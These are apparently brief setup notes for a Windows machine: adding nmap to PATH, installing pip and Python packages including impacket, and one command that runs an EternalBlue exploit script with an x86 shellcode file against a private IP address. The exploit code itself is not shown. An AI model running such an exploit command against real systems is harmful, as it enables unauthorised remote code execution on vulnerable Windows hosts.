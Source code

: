 # -SystemRoot-

%SystemRoot%\system32;%SystemRoot%;%SystemRoot%\System32\Wbem;%SYSTEMROOT%\System32\WindowsPowerShell\v1.0\

setx PATH "%PATH%;C:\Path\To\nmap"


curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py

python get-pip.py
python get-pip.py



pip install impacket


python eternalblue_exploit7.py 192.168.1.9 sc_x86.bin


python -m pip install --upgrade pip setuptools


python -m pip install cryptography


python -m pip install build


python -m pip install impacket
